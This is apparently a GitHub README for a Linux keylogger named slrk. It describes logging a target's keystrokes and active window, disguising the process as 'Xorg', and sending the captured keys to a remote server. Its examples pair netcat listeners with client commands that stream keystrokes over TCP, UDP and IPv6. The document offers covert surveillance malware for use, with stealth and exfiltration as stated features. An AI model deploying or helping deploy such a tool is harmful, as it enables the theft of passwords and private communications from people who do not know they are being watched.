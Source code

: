 # Simple_Local&Remote_Keylogger<br>

##DESCRIPTION

	Simple keylogger that runs on Linux either locally or remotely.
	It shows the active window on which the target is writing.
	Keys are mapped on US keyboard.
	It shows the keyboard layout(e.g.: us, it, colemak, etc..).
	Process name is renamed as "Xorg".
	It works with both TCP and UDP and with ipv6 too.
	It must be run as root.

Usage: \#./slrk [OPTIONS]

##OPTIONS
	-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
	-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
	-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>

##EXAMPLE

	[TCP]
	Server$ nc -lvp 8888 > logger.txt
	Client\#./slrk -m remote -a 127.0.0.1 -p 8888

	[UDP]
	Server$ nc -u -lvp 8888 > logger.txt
	Client\#./slrk -m remote -a 127.0.0.1 -p 8888

	[IPv6]
	Server$ nc -6 -lvp 8888 > logger.txt
	Client\#./slrk -m remote -a ::1 -p 8888
	
